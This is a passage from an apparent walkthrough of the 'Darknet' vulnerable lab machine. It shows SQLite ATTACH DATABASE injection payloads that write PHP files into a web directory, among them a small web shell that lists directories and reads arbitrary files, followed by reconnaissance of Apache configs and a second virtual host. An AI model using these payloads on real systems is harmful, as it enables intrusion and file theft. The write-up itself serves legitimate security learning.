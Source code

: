 3 hits for `/css`, `/img` and `/includes`. Considering I had the VirtualHost configuration file, I also knew that these paths are most probably relative to the DocumentRoot at `/home/devnull/public_html`. Now, all I had to do was modify the payload as explained in the blogpost and cross my fingers. Without boring you with the nitty gritty details, I finally managed to figure out that I can write to the `/img` directory and gain some code execution.

```
ATTACH DATABASE '/home/devnull/public_html/img/phpinfo.php' as pwn;
CREATE TABLE pwn.shell (code TEXT);
INSERT INTO pwn.shell (code) VALUES ('<?php phpinfo(); ?>');
```

{{< figure src="/images/darknet_888_phpinfo.png" >}}

Yeah... look at that. The amount of `disable_functions` values explain why my initial `system()` type PHP shells were failing. Nonetheless, I was still able to browse the filesystem with a very rudementary script injected using the SQL shell I still had. The payload was as follows that allowed me to browse around and cat things.

```
ATTACH DATABASE '/home/devnull/public_html/img/files.php' as pwn;
CREATE TABLE pwn.shell (code TEXT);
INSERT INTO pwn.shell (code) VALUES ("<?php if($_GET['a'] == 'ls') { print_r(scandir($_GET['p'])); } if($_GET['a'] == 'cat') { print_r(readfile($_GET['p'])); } ?>");
```

Looking at the `phpinfo()` output, I also noticed the `open_basedir` value was set to `/etc/apache2:/home/devnull:/tmp`. This is kinda what motivated me to slap together that quick file browsing script so that I can see whats so interesting in `/etc/apache2` (especially since we already had this one vhost config requirement to get to this stage).

Lastly, I also learnt that we are currently the `devnull` user on a Debian Linux box... Weird. I expected something like `www-data` but ok.

{{< figure src="/images/darknet_888_id.png" >}}

Getting back to the `/etc/apache2` thing, I found another VirtualHost configuration file there in `/etc/apache2/sites-available/`. This was done using the `files.php` script I wrote and toggling the `a` parameter to `ls` or `cat` as needed. I was not able to find anything else interesting thanks to that epic `open_basedir` setting :/

{{< figure src="/images/darknet_888_signal8.png" >}}

## signal8. so much hate.
I added another entry to my `/etc/hosts` and browsed to the new hostname discovered in that configuration file.

{{< figure src="/images/darknet_signal8_home.png" >}}

Poking around with the new website had a few points of interest but nothing that had any obvious bugs. The URL http://signal8.darknet.com/contact.php?id=1 had something funny going on with the `id` field though I could not confirm if this was another SQL injection bug or not. A `robots.txt` also existed for this site and had the entry `Disallow: /xpanel/`. Browsing to this I was met with a login page.

{{< figure src="/images/darknet_signal8_xpanel.png" >}}
